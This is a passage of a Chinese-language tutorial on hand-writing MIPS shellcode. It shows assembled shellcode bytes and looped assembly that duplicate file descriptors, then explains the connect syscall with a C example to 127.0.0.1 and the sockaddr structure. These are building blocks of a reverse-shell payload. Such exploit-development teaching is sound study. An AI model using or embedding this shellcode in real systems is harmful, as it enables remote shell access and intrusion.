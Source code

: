 shellcode 表示：

```
➜  mips rasm2 -a mips -b 32 -C -f ./conn
"\x20\x20\x40\x00\x00\x00\x05\x24\xdf\x0f\x02\x24\x0c\x00\x00\x00\x20\x20\x40\x00" \
"\x01\x00\x05\x24\xdf\x0f\x02\x24\x0c\x00\x00\x00\x20\x20\x40\x00\x02\x00\x05\x24" \
"\xdf\x0f\x02\x24\x0c\x00\x00\x00"
```

经常在这里，我们会加上一个循环，使得最终生成的 shellcode 会短一些，如：

```
lw $v0,10($sp)
addiu $a1,$zero,2
loop:
addiu $v0,$zero,4063
syscall 0x40404
addiu $t5,$zero,-1
addi $a1,$a1,-1
bne $a1,$t5,loop
```

### connect 系统调用

`connect` 函数的作用是通过 socket 连接到指定的 ip 地址监听的端口。函数原型为：

```
int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
```

第一个参数为 socket 函数返回的 sock 对象，第二个参数为指定服务端 ip 和端口的结构体，第三个参数为结构体的大小。

示例的 C 语言源代码：

```
struct sockaddr_in server;
servser.sin_family=AF_INET;
server.sin_port=htons(6666);
server.sin_addr.s_addr=inet_addr("127.0.0.1");

connect(sock,(struct sockaddr *)&amp;server,sizeof(server));
```

这里重点是 `connect` 函数的第二个参数，这个参数为 `sockaddr` 结构体，这个结构体的原型如下：

```
struct sockaddr {
sa_family_t sin_family;        //地址族，2 个字节
char sa_data[14];                 //14字节，包含套接字中的目标地址和端口信息
};
```

但是一般在这里，我们会先使用 `sockaddr_in` 结构体，将 ip 和端口进行赋值，再将其强制类型转换为 `sockaddr`。因为 `sockaddr` 结构体的 IP 地址和端口段都包含在了 `sa_data` 段，不太容易直接赋值。

`sockaddr` 结构体的原型如下：

[![](./img/202965/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_312_/t0143c895d7a0b6634f.png)
